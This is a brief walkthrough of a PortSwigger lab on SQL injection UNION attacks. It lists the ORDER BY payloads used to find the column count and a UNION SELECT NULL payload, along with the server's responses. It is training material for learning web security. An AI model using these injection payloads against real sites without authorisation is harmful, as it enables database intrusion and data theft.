 # Lab: SQL injection UNION attack, determining the number of columns returned by the query - [Click](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)


## Steps

1. **Access the Lab**  
   - Click the "Accessories" category to send: `GET /filter?category=Accessories`.  
   - Capture the request in Burp Suite.

2. **Determine Number of Columns**  
   - Inject `ORDER BY` to test column count:  
     - `category=Accessories' ORDER BY 1--`: 200 OK.  
     - `category=Accessories' ORDER BY 2--`: 200 OK.  
     - `category=Accessories' ORDER BY 3--`: 200 OK.  
     - `category=Accessories' ORDER BY 4--`: 500 Error.  
   - **Result**: Query returns 3 columns.

3. **Test Data Types**  
   - Inject: `category=Accessories' UNION SELECT NULL,NULL,NULL--`.  
   - **Result**: 200 OK, confirming the query accepts 3 NULL columns.
   - The lab is solved
